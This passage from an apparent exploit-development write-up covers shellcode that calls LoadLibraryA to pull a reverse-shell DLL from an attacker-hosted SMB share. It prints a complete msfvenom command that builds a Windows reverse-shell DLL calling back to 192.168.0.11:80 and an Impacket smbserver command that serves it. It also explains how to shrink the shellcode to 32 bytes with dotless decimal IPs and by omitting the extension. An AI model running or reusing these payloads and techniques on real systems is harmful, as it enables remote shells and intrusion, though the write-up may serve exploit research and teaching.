 All that's left to do is to generate our DLL:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.11 LPORT=80 -f dll -o s.dll
```
and host it on our SMB server using Impacket's excellent `smbserver.py`:
```
smbserver.py s .
```
We continue execution and step into the call to LoadLibraryA, noticing our string has made it to the stack:
![call loadlibrary](/images/callloadlibrary.png)

If we continue execution from here, we get a connection to our SMB server and our reverse shell. Now let's see if we can improve this at all.

### Small, smaller, smallest

The length of our shellcode used so far, including the adjustment of ESP, is 41 bytes. This is markedly shorter than a usual reverse shell and should also be shorter than most other Win32 API calls to gain code execution, such as `WinExec`, `ShellExecute` and `system`. 

There is however room to cut this one even shorter by using dotless decimal notation for the IP address. The IP address used here, `192.168.0.11` can be represented in dotless decimal as `3232235531`. If we replace this and convert the entire string to hex, we end up with:

```
.dll
\s\s
5531
3223
\\32
```
This removes the need for the padding and cuts down the total shellcode size to 36 bytes, down from 41. Still not quite as small as socket re-use, but can we go further?

Luckily, Windows is quite helpful in loading libraries for us. The documentation mentions the following:
>If the string specifies a module name without a path and the file name extension is omitted, the function appends the default library extension .dll to the module name. To prevent the function from appending .dll to the module name, include a trailing point character (.) in the module name string.

So all we need to do is specify the name of our DLL without the extension, cutting a further 4 bytes off our string and leaving us with a total shellcode size of 32 bytes.  
